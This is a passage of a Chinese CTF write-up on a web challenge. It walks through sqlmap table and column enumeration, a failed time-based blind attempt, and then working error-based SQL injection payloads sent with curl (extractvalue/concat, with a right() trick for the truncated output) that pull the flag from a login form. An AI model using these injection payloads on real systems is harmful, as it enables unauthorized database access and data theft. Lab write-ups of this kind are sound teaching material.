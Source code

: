 
然后直接爆表爆列爆字段：

```bash
sqlmap -u "http://124.71.148.26:30022/" --form -D security --tables
sqlmap -u "http://124.71.148.26:30022/" --form -D security -T flag --columns
```

![img](https://s3.xiabee.cn/pic/2023/03/9b3b538a1833db4b9d234d4a5c7c2e143077270ef01b33a9dfba4f3cad60607c.png)





就在这里，我爆不下去了......爆不出列名，爆不出字段，然后时间盲注注出来全是空表假表：

![img](https://s3.xiabee.cn/pic/2023/03/668eb25c6a35e62af7c4af2fc4b4c1106b0bf34873b7da05fbf9e18cb9422f58.png)



后面猜测应该是网络不稳定，导致每次的回显时间波动极大，造成了时间盲注的误判......当然也可能是主办方设置了障碍（x） 这个时候本来应该手写脚本时间盲注的，然后张大佬curl了一下发现这玩意居然有报错回显？？？

```bash
curl http://124.71.148.26:30022/ -X POST -d "uname=123'&passwd="
```



![img](https://s3.xiabee.cn/pic/2023/03/61d6cf52c86769ec3cd9a12d3aa4e65d9f26b6cf003294bc42690a760fb4e378.png)

居然写进了font里面，够狠





直接报错注入一把梭：（前面已经查到flag表了，这里直接爆字段就好）

```bash
curl http://124.71.148.26:30022/ -X POST -d "uname=admin' and extractvalue(1, concat(0x7e, (select * from flag limit 1)))--&passwd='(123"
```

![img](https://s3.xiabee.cn/pic/2023/03/79375b973bef65b4203aae84ef096bdf64a861fbe666b3e1026dabef645ac693.png)



flag太长显示不全，截断之后看后半段：

```bash
curl http://124.71.148.26:30022/ -X POST -d "uname=admin' and extractvalue(1, concat(0x7e, (right((select * from flag limit 1),20))))--&passwd='(123"
```

![img](https://s3.xiabee.cn/pic/2023/03/633bc06b4767c098bd37d4b9009709e8739ff88db2b0487532bcfc48cd5e46ac.png)



综合一下，payload分两段，注意括号引号闭合即可：

```bash
## http://124.71.148.26:30022/
 
uname=admin' and extractvalue(1, concat(0x7e, (select * from flag limit 1)))--
&passwd='(123
# 第一段爆出前半段flag
# 
## http://124.71.148.26:30022/
uname=admin' and extractvalue(1, concat(0x7e, (
right((select * from flag limit 1),20)
)))--
&passwd='(123
# 第二段爆后半段
```
